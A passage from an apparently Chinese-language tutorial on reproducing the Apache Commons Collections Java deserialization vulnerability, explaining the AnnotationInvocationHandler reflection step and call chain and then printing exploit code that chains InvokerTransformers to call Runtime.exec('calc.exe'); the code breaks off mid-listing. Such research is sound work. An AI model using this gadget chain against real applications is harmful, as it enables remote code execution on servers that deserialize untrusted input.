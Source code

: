 最后一个if判断,如果不是memberValues值的实例,并且不是ExceptionProxy的接口就可以调用setValue方法

不过要注意AnnotationInvocationHandler虽然有序列化接口,但是是一个内部类,不能直接获取,需要利用反射的方法

![image-20211201231855031](images/16.png)

```
Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = T0WN.getDeclaredConstructor(Class.class,Map.class);
constructor.setAccessible(true);//构造函数并不是public
Object instance = constructor.newInstance(Retention.class,outmap);
```

## 漏洞复现

大致的调用链

```
sun.reflect.annotation.AnnotationInvocationHandler.readObject()
	Map.setValue()
		TransformedMap.checkValue()
			ChainedTransformer.transform()
				达到任意代码执行的目的
```

exp

```
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;
import java.io.*;

public class Test1 {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", null
                }
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, null
                }
                ),
                new InvokerTransformer("exec", new Class[]{
                        String.class}, new Object[]{
                        "calc.exe"
                }
                )
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value","key");
```